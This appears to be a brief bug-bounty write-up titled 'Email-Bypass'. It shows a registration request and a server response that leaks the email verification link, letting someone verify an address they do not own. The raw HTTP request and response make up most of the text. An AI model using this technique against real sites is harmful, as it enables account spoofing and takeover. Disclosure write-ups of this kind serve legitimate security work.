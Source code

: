 # Email-Bypass



There are three options for login into the account;

    Facebook Login
    Google Login
    Email and Password Login
    
    
    
# Request:


POST /registerNewUser HTTP/1.1

Host: www.site.com

User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate

Referer: https://www.site.comlogin

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 171

Cookie: foo

DNT: 1 Connection: close givenName=test&familyName=test&gender=0&email=test@gmail.com&tz=20&agreePrivAndTC=true&password=value&action=send-verification-web

I Tried to  Add Such test@gmail.com as email  i get shocked by  viewing the Repose because it leaking the verification link.

# Response:


HTTP/1.1 200 OK Server: nginx

Date: Thu, 28 Jun 2018 06:47:49 GMT

Content-Type: application/json; charset=utf-8

Content-Length: 54 Connection: close X-Powered-By: Express Cache-Control: private, no-cache, no-store, must-revalidate Expires: -1 Pragma: no-cache

Access-Control-Allow-Origin: *

X-Frame-Options: SAMEORIGIN

ETag: W/”36-zOgjh98O1kXD4SR66HqUdT6UxdM”

Strict-Transport-Security: max-age=63072000; includeSubdomains; preload

{“key”:”the verification link”,”success”:1}

After seeing the  verification link my feeling was.
